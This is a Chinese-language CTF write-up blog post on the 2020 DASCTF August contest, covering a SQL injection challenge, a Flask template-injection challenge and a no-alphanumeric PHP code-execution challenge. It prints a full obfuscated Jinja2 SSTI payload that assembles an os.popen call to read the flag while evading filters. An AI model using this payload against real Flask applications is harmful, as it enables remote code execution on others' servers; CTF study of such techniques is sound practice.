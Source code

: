 ```yaml
---
title: DASCTF八月赛学习
author: Troy3e
avatar: 'https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/avatar.jpg'
authorAbout: steamID：888007034
authorDesc: 'Blizzard：TroyeSivan#51769'
categories: 技术
comments: true
date: 2020-09-07 12:14:07
authorLink:
tags:
keywords:
description:
photos: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/987544.jpg
---
```


一、安恒大学
这道题当时没做出来，看了wp才知道是实战改编的，主要是没想到会在邮箱那里存在sql注入，一直在研究那个留言板，以为是ssti或者二次注入，wtcl。

二、ezflask

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/4155.jpg)

y1ng师傅的payload，保存一下，构造任意字符串说不定以后会遇到。

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/626546.jpg)

    payload：
    http://183.129.189.60:10025/?name=?{%%20set%20xhx%20=%20(({%20}|select()|string()|list()).pop(24)|string())%}{%%20set%20spa%20=%20((app.__doc__|list()).pop(102)|string())%}{%%20set%20pt%20=%20((app.__doc__|list()).pop(320)|string())%}%20{%%20set%20yin%20=%20((app.__doc__|list()).pop(337)|string())%}{%%20set%20left%20=%20((app.__doc__|list()).pop(264)|string())%}%20{%%20set%20right%20=%20((app.__doc__|list()).pop(286)|string())%}%20{%%20set%20slas%20=%20(y1ng.__init__.__globals__.__repr__()|list()).pop(349)%}%20{%%20set%20bu%20=%20dict(buil=aa,tins=dd)|join()%20%}{%%20set%20im%20=%20dict(imp=aa,ort=dd)|join()%20%}{%%20set%20sy%20=%20dict(po=aa,pen=dd)|join()%20%}{%%20set%20os%20=%20dict(o=aa,s=dd)|join()%20%}%20{%%20set%20ca%20=%20dict(ca=aa,t=dd)|join()%20%}{%%20set%20flg%20=%20dict(fl=aa,ag=dd)|join()%20%}{%%20set%20ev%20=%20dict(ev=aa,al=dd)|join()%20%}%20{%%20set%20red%20=%20dict(re=aa,ad=dd)|join()%}{%%20set%20bul%20=%20xhx*2~bu~xhx*2%20%}{%%20set%20pld%20=%20xhx*2~im~xhx*2~left~yin~os~yin~right~pt~sy~left~yin~ca~spa~slas~flg~yin~right~pt~red~left~right%20%}%20{%%20for%20f,v%20in%20y1ng.__init__.__globals__.items()%20%}{%%20if%20f%20==%20bul%20%}{%%20for%20a,b%20in%20v.items()%20%}{%%20if%20a%20==%20ev%20%}{{b(pld)}}{%%20endif%20%}{%%20endfor%20%}{%%20endif%20%}{%%20endfor%20%}

三、rceme

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/6537835.jpg)

无字母数字rce
虽然过滤了部分位运算符 但还是漏了一个| 或运算
利用或运算符构造playload 调用readfile函数 读取根目录flag

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/97585.jpg)

这里就用反引号的二进制位与payload的二进制位对比，得出最后的payload：
异或构造字符。
